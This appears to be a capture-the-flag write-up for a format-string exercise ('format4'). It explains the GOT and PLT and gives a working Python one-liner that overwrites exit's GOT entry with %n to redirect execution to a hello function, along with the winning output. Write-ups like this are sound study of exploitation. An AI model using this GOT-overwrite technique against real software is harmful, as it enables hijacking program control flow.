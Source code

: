 **Format4**


In this challenge we can't just change eip straight from the format string, we have an exit function call right after.

We need to somehow change the exit function field in the .got to the address of hello.


**Got?**

No, not Game of Thrones.
The General Offset Table (GOT for short) is a table of function addresses.

What addresses?
When you use a function from a shared object, for example exit we can't just jump to exit's address because the compiler doesn't know where it is in memory.
That's why when you call a function from a shared object for the first time the Procedure Linkage Table (PLT for short) calls a different function that sets the .got field for exit.

From now on, on every exit call, the plt will jump to whatever address the .got has.


**How Can We Exploit This?**

We need to find where exactly the .got field for exit is located so we can change it's value to hello's address and instead of executing exit we'll simply jump to hello.


**Finding GOT**

If we run the program and try to disassemble exit in gdb, we'll get exit's actual code, which is at (0xb7ec60c0).
We need to try and look at exit before running the program.

![](photos/pre_exec.png)

This is the plt function that checks .got, let's disassemble it

![](photos/exit@plt.png)

There it is!
We need to change this address in order to achieve our goal.


**Finding hello's Address**

```diff
$ readelf -s format4 | grep hello
    64: 080484b4    30 FUNC    GLOBAL DEFAULT   14 hello
```

**Writing The Exploit**

We've already done a few of these format string attacks already, so we're pretty experienced.

We need 3 %x to change our address with a %n.
We need to change it to hello's address.

0x080484b4 - exploit length = our value.
After a few tries in gdb I've constructed the following exploit.

```diff
$ python -c "from struct import pack; print pack('<I', 0x8049724) + '%x '*2 + '%134513827x%n'" | ./format4
...
...
...
...
                                                                                                                                                          bffff614
code execution redirected! you win
```

This took a while to run.